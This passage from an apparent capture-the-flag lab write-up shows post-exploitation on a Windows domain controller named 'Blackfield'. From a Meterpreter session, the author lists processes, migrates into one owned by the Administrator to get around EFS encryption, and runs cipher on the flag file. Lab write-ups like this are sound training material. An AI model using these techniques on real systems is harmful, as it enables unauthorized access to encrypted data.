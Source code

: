 I can see who can decrypt (administrator, as expected), but now I can’t decrypt it. Of course, because I’m running as SYSTEM:

```

C:\Users\Administrator\Desktop>whoami
nt authority\system

```

I got a new Meterpreter session, and this time, I looked for a process that was running as administrator and was in session 1:

```

meterpreter > ps

Process List
============

 PID   PPID  Name                                       Arch  Session  User                          Path
 ---   ----  ----                                       ----  -------  ----                          ----
 0     0     [System Process]                                                                         
 4     0     System                                     x64   0                                      
 88    4     Registry                                   x64   0                                      
 280   4     smss.exe                                   x64   0                                      
 328   528   dwm.exe                                    x64   1        Window Manager\DWM-1          C:\Windows\System32\dwm.exe
...[snip]...
 5848  604   svchost.exe                                x64   1        BLACKFIELD\Administrator      C:\Windows\System32\svchost.exe
...[snip]...

meterpreter > migrate 5848
[*] Migrating from 4504 to 5848...
[*] Migration completed successfully.

```

Now in a shell, and `cipher` works and I can read the flag:

```

C:\Users\Administrator\Desktop>cipher /c root.txt

 Listing C:\Users\Administrator\Desktop\
 New files added to this directory will not be encrypted.

E root.txt
  Compatibility Level:
    Windows XP/Server 2003

  Users who can decrypt:
    BLACKFIELD\Administrator [Administrator(Administrator@BLACKFIELD)]
    Certificate thumbprint: 327F 9775 6FF7 110B 0564 E159 7DBC AF6E 7D2A AFD8 

  Recovery Certificates:
    BLACKFIELD\Administrator [Administrator(Administrator@BLACKFIELD)]
    Certificate thumbprint: 78CD 0031 7A9C 948A 9A66 0D6D BC32 0706 D193 476A 

  Key Information:
```